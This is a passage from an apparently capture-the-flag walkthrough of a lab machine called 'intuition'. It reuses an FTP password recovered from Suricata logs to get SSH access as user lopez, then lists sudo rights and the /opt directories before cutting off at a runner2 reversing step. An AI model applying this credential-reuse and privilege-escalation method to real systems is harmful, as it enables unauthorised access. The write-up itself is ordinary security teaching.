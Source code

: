 Aha! It seems like someone tried to log in to the FTP server using the username `lopez` and the password `Lopezz1992%123`. This could be our ticket to the root shell
## SSH

I am able to ssh with the `lopez` credentials was found from `suricata` logs 

```bash
$ ssh lopez@10.10.11.15
lopez@10.10.11.15s password: 
lopez@intuition:~$ whoami
lopez
lopez@intuition:~$ 
```

### Shell as lopez

First, I used `sudo -l` to see what commands the `lopez` user could run with elevated privileges

```bash
lopez@intuition:/opt$ sudo -l
[sudo] password for lopez: 
Sorry, try again.
[sudo] password for lopez: 
Matching Defaults entries for lopez on intuition:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User lopez may run the following commands on intuition:
    (ALL : ALL) /opt/runner2/runner2
lopez@intuition:/opt$ 
```

The `lopez` user can run the `/opt/runner2/runner2` executable with any user and any group

```bash
lopez@intuition:/opt$ ls -la
total 28
drwxr-xr-x  7 root root    4096 Apr 10 08:21 .
drwxr-xr-x 19 root root    4096 Apr 10 07:40 ..
drwx--x--x  4 root root    4096 Aug 26  2023 containerd
drwxr-xr-x  4 root root    4096 Sep 19  2023 ftp
drwxr-xr-x  3 root root    4096 Apr 10 08:21 google
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 playbooks
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 runner2
lopez@intuition:/opt$ cd runner2/
lopez@intuition:/opt/runner2$ ls -la
total 28
drwxr-x--- 2 root sys-adm  4096 Apr 10 08:21 .
drwxr-xr-x 7 root root     4096 Apr 10 08:21 ..
-rwxr-xr-x 1 root root    17448 Oct 21  2023 runner2
lopez@intuition:/opt/runner2$ 
```

## Reversing the runner2


[WARNING]: - root.tar.gz was NOT installed successfully: Unknown error when attempting to call Galaxy at